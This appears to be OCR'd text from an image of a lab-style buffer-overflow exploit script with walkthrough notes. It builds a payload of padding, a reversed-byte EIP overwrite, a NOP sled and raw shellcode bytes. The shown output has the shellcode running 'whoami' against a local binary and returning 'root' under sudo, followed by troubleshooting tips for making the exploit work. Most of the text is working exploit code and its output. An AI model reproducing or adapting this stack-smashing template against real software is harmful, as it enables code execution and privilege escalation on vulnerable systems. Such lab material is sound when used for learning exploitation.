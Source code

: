 ``` 
buff="A" * 62 #feeding the script 62 A's

## Buffer Offset ###
'''
0xf7 f6 96 3b

#now flip this around to get the reverse byte order, like this:

0x3b 96 f6 f7

#memory sections we chose - you can pick any of these from your info proc map output
0xf7f6963b
0xf7f6970b
0xf7f69733
0xf7f697bb
0xf7f69853
'''
#eip="B" * 4 # old placeholder EIP sanity check - 4 bytes in sizes. commented out because we are using the real thing with reverse byte order now (see line directly under this one)
eip = '\x3b\x96\xf6\xf7'
nop='\x90' * 10
buf =  b""
buf += b"\xbb\x4f\xe8\x5e\x4f\xda\xd1\xd9\x74\x24\xf4\x5f\x2b"
buf += b"\xc9\xb1\x0b\x83\xef\xfc\x31\x5f\x10\x03\x5f\x10\xad"
buf += b"\x1d\x34\x44\x69\x47\x9b\x3c\xe1\x5a\x7f\x48\x16\xcc"
buf += b"\x50\x39\xb0\x0d\xc7\x92\x22\x67\x79\x64\x41\x25\x6d"
buf += b"\x71\x85\xca\x6d\x09\xed\xa5\x0c\x98\x84\x39\x98\x31"
buf += b"\xdf\xdb\xeb\x36"
print(buff + eip + nop + buf)			#remember it has to be in this exact order
`
## now the moment of truth - run the script against the function

>> ./func <<< $(python buff.py)
Enter a string: 
student				#note how this is the output of the "whoami" command as specified by our shellcode!


##use sudo -l to verify what you can/cannot sudo
>> sudo ./func <<< $(python buff.py)
Enter a string: 
root

looks like it worked lol









### troubshooting

1. look at your nop sled. try doubling it. 
2. make sure the order of your variables is ok (buff + eip + nop + buf)
3. regenerate shellcode (use the exact same command with msfvenom as before)
4. try new reverse byte order, maybe your old one sucked
5. completely restart // fresh slate



```